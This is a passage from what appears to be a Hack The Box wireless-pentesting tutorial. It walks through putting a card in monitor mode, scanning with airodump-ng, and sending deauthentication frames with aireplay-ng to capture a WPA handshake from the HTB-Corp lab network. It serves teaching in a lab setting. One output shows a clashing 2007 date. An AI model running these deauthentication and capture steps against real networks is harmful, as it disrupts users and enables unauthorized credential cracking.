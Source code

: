 <pre><code class="language-shell-session">[!bash!]$ sudo airmon-ng start wlan0

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    559 NetworkManager
    798 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)
</code></pre>
<p>Next, we will use <code>airodump-ng</code> to scan for available Wi-Fi networks. To save the scan results for later analysis, we use the <code>--write</code> (or <code>-w</code>) parameter followed by a filename. This writes the output to a file with the specified prefix, enabling us to efficiently store and review the captured data.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng wlan0mon -w HTB -c 1

11:32:13  Created capture file "HTB-01.cap".

 CH 1 ][ Elapsed: 6 s ][ 2024-11-27 11:55 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 D4:C1:8B:79:AD:45  -28        7        2    0   1   54   WPA2 TKIP   PSK  HTB-Corp

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 D4:C1:8B:79:AD:45  C2:CA:2A:79:D5:87  -29   54 -48      0        2 
</code></pre>
<p>Now, we need to deauthenticate the connected client using aireplay-ng. This forces the client to disconnect from the legitimate access point, prompting it to reconnect. During this reconnection process, we can capture a valid WPA handshake, which is essential for validating the network credentials later.</p>
<pre><code class="language-shell-session">[!bash!]$ aireplay-ng --deauth 5 -a D4:C1:8B:79:AD:45 wlan0mon

11:51:19  Waiting for beacon frame (BSSID: D4:C1:8B:79:AD:45) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c &lt;client's mac&gt;).
11:51:19  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:20  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:20  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:21  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
11:51:21  Sending DeAuth (code 7) to broadcast -- BSSID: [D4:C1:8B:79:AD:45]
</code></pre>
<p>Once the clients are deauthenticated from the AP, we can continue observing <code>airodump-ng</code> to see when they reconnect.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng wlan0mon -w HTB

CH  1 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ][ WPA handshake: D4:C1:8B:79:AD:45

 CH 10 ][ Elapsed: 6 s ][ 2024-11-27 11:55 
